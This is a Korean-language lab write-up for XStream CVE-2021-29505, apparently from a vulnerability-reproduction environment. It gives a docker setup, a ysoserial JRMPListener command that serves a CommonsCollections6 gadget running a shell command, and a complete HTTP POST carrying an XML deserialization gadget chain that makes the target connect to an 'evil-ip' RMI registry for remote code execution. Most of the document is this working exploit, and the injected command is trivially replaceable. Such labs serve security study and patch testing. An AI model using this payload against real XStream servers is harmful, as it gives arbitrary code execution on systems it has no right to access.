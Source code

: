 # XStream CVE-2021-29505 분석 코드 및 결과

XStream은 object들을 시리얼화하거나 되돌리는 간단한 라이브러리임.

XStream은 역시리얼화 취약점을 방어하는 데 사용되는 XML 텍스트를 구문 분석할 때 차단 목록 메커니즘을 사용하지만 1.4.16 및 이전 버전에서는 차단 목록이 불완전하며 공격자가 `sun.rmi.registry.RegistryImpl_Stub` 을 사용하여 RMI 요청을 만들고 마침내 임의 실행을 할 수 있음.

## 취약한 환경

Springboot + XStream 1.4.16 서버 시작

```
docker compose up -d
```

일단 환경이 시작되면, 잘 시작되는지 테스트하기 위해 `http://your-ip:8080`로 request를 보낼 수 있음.
![](1.png)

## POC

먼저, 악한 서버 위에 악성의 RMI 레지스트리를 [ysoserial](https://github.com/frohoff/ysoserial)의 JRMPListener를 이용해서 시작해야 함.

```
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "touch /tmp/success"
```

이 RMI 레지스트리는 request를 받고 악성의 시리얼화된 object(`CommonsCollection6` 가젯으로 만들어진)를 리턴함.

그리고 CVE-2021-29505의 XML POC을 보내고 **evil-ip**를 악한 RMI 레지스트리의 주소로 교체함

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3169

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>evil-ip</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>evil-ip</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

악성의 RMI registry 는 RMI request를 성공적으로 받음.

![](2.png)

Enter into the XStream container, ``touch /tmp/success``를 XStream 컨테이너에 입력하면 성공적으로 실행됨.

![](3.png)

[official website][1]로부터의 POC가 틀림, 사용하면 안됨.

[1]: https://x-stream.github.io/CVE-2021-29505.html

